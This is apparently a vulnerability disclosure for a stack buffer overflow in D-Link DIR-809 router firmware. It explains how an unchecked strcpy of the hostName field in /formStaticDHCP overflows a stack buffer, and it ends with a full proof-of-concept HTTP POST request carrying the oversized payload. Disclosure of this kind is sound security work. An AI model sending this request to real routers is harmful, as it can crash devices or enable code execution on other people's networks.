

# D-Link DIR809 Vulnerability

The Vulnerability is in page `/formStaticDHCP` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_80034d60` ( page `/formStaticDHCP` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"hostName_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar1` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `acStack386`. 




## PoC

``` 
POST /formStaticDHCP.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 1718
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Network.asp?t=1620545775523
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=v2F31BZVGw
Connection: close

settingsChanged=0&hostName_0=12312312312312312313*0x200&host_ip_0=192.168.0.101&mac_0=3c22fb4473b4&computer_list_ipaddr_select_0=-1&hostName_1=&host_ip_1=&mac_1=&computer_list_ipaddr_select_1=-1&hostName_2=&host_ip_2=&mac_2=&computer_list_ipaddr_select_2=-1&hostName_3=&host_ip_3=&mac_3=&computer_list_ipaddr_select_3=-1&hostName_4=&host_ip_4=&mac_4=&computer_list_ipaddr_select_4=-1&hostName_5=&host_ip_5=&mac_5=&computer_list_ipaddr_select_5=-1&hostName_6=&host_ip_6=&mac_6=&computer_list_ipaddr_select_6=-1&hostName_7=&host_ip_7=&mac_7=&computer_list_ipaddr_select_7=-1&hostName_8=&host_ip_8=&mac_8=&computer_list_ipaddr_select_8=-1&hostName_9=&host_ip_9=&mac_9=&computer_list_ipaddr_select_9=-1&hostName_10=&host_ip_10=&mac_10=&computer_list_ipaddr_select_10=-1&hostName_11=&host_ip_11=&mac_11=&computer_list_ipaddr_select_11=-1&hostName_12=&host_ip_12=&mac_12=&computer_list_ipaddr_select_12=-1&hostName_13=&host_ip_13=&mac_13=&computer_list_ipaddr_select_13=-1&hostName_14=&host_ip_14=&mac_14=&computer_list_ipaddr_select_14=-1&hostName_15=&host_ip_15=&mac_15=&computer_list_ipaddr_select_15=-1&hostName_16=&host_ip_16=&mac_16=&computer_list_ipaddr_select_16=-1&hostName_17=&host_ip_17=&mac_17=&computer_list_ipaddr_select_17=-1&hostName_18=&host_ip_18=&mac_18=&computer_list_ipaddr_select_18=-1&hostName_19=&host_ip_19=&mac_19=&computer_list_ipaddr_select_19=-1&hostName_20=&host_ip_20=&mac_20=&computer_list_ipaddr_select_20=-1&hostName_21=&host_ip_21=&mac_21=&computer_list_ipaddr_select_21=-1&hostName_22=&host_ip_22=&mac_22=&computer_list_ipaddr_select_22=-1&hostName_23=&host_ip_23=&mac_23=&computer_list_ipaddr_select_23=-1&HNAP_AUTH=9ABC7566FEC3D4A69F750618F1E5EA86 1620545783&submit-url=%2FBasic%2FNetwork.asp
```
